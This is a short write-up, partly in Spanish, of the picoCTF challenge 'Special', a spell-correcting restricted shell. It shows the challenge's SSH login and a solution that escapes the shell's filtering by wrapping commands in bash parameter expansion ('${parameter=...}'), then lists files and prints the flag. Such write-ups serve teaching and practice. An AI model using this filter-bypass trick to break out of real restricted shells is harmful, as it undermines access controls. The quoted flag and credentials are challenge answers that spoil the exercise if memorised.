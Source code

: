 Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)
Start your instance to see connection details.`ssh -p 57013 ctf-player@saturn.picoctf.net`The password is `8a707622`

Hints:
1. Experiment with different shell syntax

## Solución 1:
Encontré que si agregábamos el comando como un parámetro dentro de '${p=}' lo ejecutaría normalmente, aunque con algunas restricciones
```
Special$ ${parameter=ls}
${parameter=ls}
blargh
Special$ ${parameter=cat blargh}
${parameter=cat blargh}
cat: blargh: Is a directory
Special$  ${parameter=ls blargh}
${parameter=ls blargh}
flag.txt
Special$ ${parameter=cat < blargh/flag.txt}
${parameter=cat < blargh/flag.txt}
cat: '<': No such file or directory
picoCTF{5p311ch3ck_15_7h3_w0r57_a60bdf40}
```
